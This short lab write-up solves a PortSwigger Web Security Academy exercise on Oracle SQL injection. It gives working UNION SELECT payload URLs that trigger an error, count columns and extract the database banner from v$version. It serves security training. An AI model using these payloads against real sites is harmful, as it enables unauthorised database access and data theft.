



# Lab: SQL injection attack, querying the database type and version on Oracle

URL: https://0aca004604a48f5a8173c1e400cb00ac.web-security-academy.net/

## Sitemap:

URL: https://0aca004604a48f5a8173c1e400cb00ac.web-security-academy.net/

URL: https://0aca004604a48f5a8173c1e400cb00ac.web-security-academy.net/filter?category=Gifts

## Exploitation:

### Getting 500:

URL: https://0aca004604a48f5a8173c1e400cb00ac.web-security-academy.net/filter?category=Gifts'



### Getting the number of fields:

URL: `https://0aca004604a48f5a8173c1e400cb00ac.web-security-academy.net/filter?category='+UNION+SELECT+NULL,NULL+from+v$version--+-`



### Getting the version:

```
https://www.beekeeperstudio.io/blog/how-to-check-oracle-version-and-edition
```

URL: `https://0aca004604a48f5a8173c1e400cb00ac.web-security-academy.net/filter?category='+UNION+SELECT+BANNER,NULL+from+v$version--+-`


